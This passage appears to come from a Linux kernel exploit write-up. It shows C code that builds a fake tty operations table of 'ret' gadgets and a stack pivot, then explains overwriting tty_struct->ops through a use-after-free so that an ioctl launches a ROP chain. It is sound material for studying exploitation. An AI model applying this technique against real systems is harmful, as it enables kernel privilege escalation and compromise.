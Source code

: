 ```c
    for (size_t i = 0; i < 12; i++)
    {
        if (i == 4)
        {
            *func_table++ = kernel_base + 0x1e; // ret;
            continue;
        }

        if (i == 5)
        {
            *func_table++ = kernel_base + 0x1e; // ret
            continue;
        }

        if (i == 6)
        {
            *func_table++ = kernel_base + 0x1e; // ret
            continue;
        }

        *func_table++ = 0xdeadbeefdeadbe00 + i;
    }

    *func_table = pivot;
}
```

<br/>

#### ROP

Now that we know the addresses of our ROP chain and fake function table, it uses a use-after-free write to overwrite the tty_struct->ops pointer with the address of the fake function table. After that, when ioctl is triggered, a stack pivot occurs to redirect execution to the ROP chain, which is then executed to achieve the exploit's goal.
